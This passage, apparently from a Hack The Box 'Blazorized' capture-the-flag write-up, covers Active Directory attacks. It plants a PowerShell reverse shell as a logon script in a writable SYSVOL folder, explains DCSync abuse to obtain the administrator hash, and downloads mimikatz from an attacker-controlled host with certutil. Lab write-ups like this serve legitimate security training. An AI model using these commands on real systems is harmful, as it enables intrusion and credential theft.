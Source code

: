 ![scriptPath query](/images/HTB-Blazorized/scriptPath_query.png)

The path to those scripts is usually relative to a network share designated for logon scripts such as the `SYSVOL` directory, it looks like we will need to manually find the directory and find which file we can write to. Its standard location is `C:\Windows\SYSVOL`.

In `C:\Windows\SYSVOL\sysvol\blazorized.htb\scripts` we discover that we have Full permissions on the directory `A32FF3AEAA23`.

![SYSVOL directory permissions](/images/HTB-Blazorized/SYSVOL_dir_perm.png)

1. We set a logon script for the user `SSA_6010`.

```
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\revshell.bat' 
```

2. We write a PowerShell reverse shell to `revshell.bat`, which will be automatically executed when `SSA_6010` logs in.

* Get a PowerShell reverse shell on [revshells.com](https://www.revshells.com/), use the `PowerShell#3 (Base64)`.

```
 echo "powershell -e JAB..." | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\revshell.bat -Encoding ASCII 
```

![Logon script revshell](/images/HTB-Blazorized/logon_script_revshell.png)

On our listener we catch a shell as `SSA_6010`.

![SSA_6010 shell](/images/HTB-Blazorized/SSA_6010_shell.png)

## Privilege Escalation

We switch to a meterpreter shell, upload SharpHound to the target an run it a second time.

`SSA_6010` is part of the `Super_Support_Administrators` group.

![SSA_6010 group memberships](/images/HTB-Blazorized/SSA_6010_group_membership.png)

The members of this group have the `DCSync` right on the Domain Controller. We can use this right to achieve a DCSync attack and get the administrator password hash.

> DCSync right is a permission typically granted to Domain Controllers in an AD environment. It is used to replicate directory information, including account credentials, across the domain. When a server has this permission, it can perform directory synchronization operations to keep data consistent between different domain controllers. With this right we can pretend to be a Domain Controller by sending a `DRSGetNCChanges` request to the target Domain Controller and when the Domain Controller responds, it sends sensitive information back to us, including password hashes for the requested accounts.

![DCSync Abuse](/images/HTB-Blazorized/DCSync_abuse.png)

```
certutil.exe -urlcache -split -f http://YOUR-IP:WEBSERVER_PORT/mimikatz.exe mimikatz.exe
```
